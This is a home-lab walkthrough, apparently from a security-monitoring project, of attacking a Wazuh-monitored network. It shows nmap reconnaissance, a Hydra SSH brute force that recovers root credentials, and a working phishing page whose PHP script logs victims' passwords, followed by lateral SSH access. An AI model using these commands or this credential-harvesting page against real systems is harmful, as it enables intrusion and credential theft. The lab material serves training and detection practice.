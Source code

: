 # recon and initial access Walkthrough

## 📌 Overview
This document outlines how an attacker gains access to the home lab environment.

---

## 🔍 Ensuring Security Monitoring
Before the attack, the **Security Server (`sec-box`)** ensures that the following VMs are monitored under Wazuh:
- **Windows Client (`win-client`)**
- **Linux Client (`linux-client`)**
- **Active Directory (`dc`)**

---

## 🚨 Attack Execution

### **1️⃣ Reconnaissance & Initial Access**
#### **Attacker Machine:**
The attacker starts by scanning the network to identify active hosts and services.

```bash
nmap -p1-1000 -sV -Pn 10.0.0.0/24
```
This reveals the **email server (`10.0.0.8`)**.

A focused scan is performed:
```bash
nmap -p1-1000 -sV -Pn 10.0.0.8
```
Findings:
- **SSH (22) Open**
- **SMTP (25) Open**

#### **Brute Forcing SSH**
Attempting to log in via SSH:
```bash
ssh root@10.0.0.8
```
A password prompt appears. The attacker uses **Hydra** to brute force SSH credentials using `rockyou.txt`.

```bash
hydra -l root -P /home/attacker/rockyou.txt ssh://10.0.0.8
```
After some time, the credentials are found:
- **Username:** root
- **Password:** november

The attacker successfully logs in:
```bash
ssh root@10.0.0.8
```

#### **Gathering System Information**
Once inside, the attacker gathers intelligence:
```bash
cat /etc/os-release      # Identify OS
hostname                # Get system name
ps aux                  # List running processes
ls -la /etc             # Explore configuration files
```

---

### **2️⃣ Expanding Access**

#### **Targeting the Domain Controller (`dc`)**
The attacker scans again:
```bash
nmap -p1-1000 -sV -Pn 10.0.0.0/24
```
Finds **corp.project-x-dc.com** (Active Directory) with:
- **Kerberos, NetBIOS, LDAP, Microsoft-DS ports open**

Instead of attacking AD directly, the attacker moves to an easier target: **Linux Client (`10.0.0.101`)** with open SSH and SMTP.

---

### **3️⃣ Phishing for Credentials**
The attacker finds an email from **janed@linux-client** in `/Maildir` on the email server.

They create a **phishing website**:
```bash
echo '<html><form method="POST" action="creds.php"><input name="user"><input name="pass" type="password"><input type="submit"></form></html>' > /var/www/html/index.html
echo '<?php file_put_contents("creds.log", $_POST["user"].":".$_POST["pass"]."\n", FILE_APPEND); ?>' > /var/www/html/creds.php
```
Start the **Apache web server**:
```bash
service apache2 start
```
The attacker crafts an email with a malicious link, impersonating the company, and sends it to **janed@linux-client**.

When Jane enters her credentials, the attacker retrieves them:
```bash
cat /var/www/html/creds.log
```
Finds login details and SSHs into `10.0.0.101`:
```bash
ssh janed@10.0.0.101
```


## ✅ Summary
- **Attacker gained initial access** via brute force on SSH.
- **Expanded access** by phishing `janed@linux-client`.
- **Compromised a second machine** using stolen credentials.

📌 **Lesson:** Strong passwords and awareness are crucial in detecting and preventing attacks!

---

This concludes the **reconnaisance and initial access**.

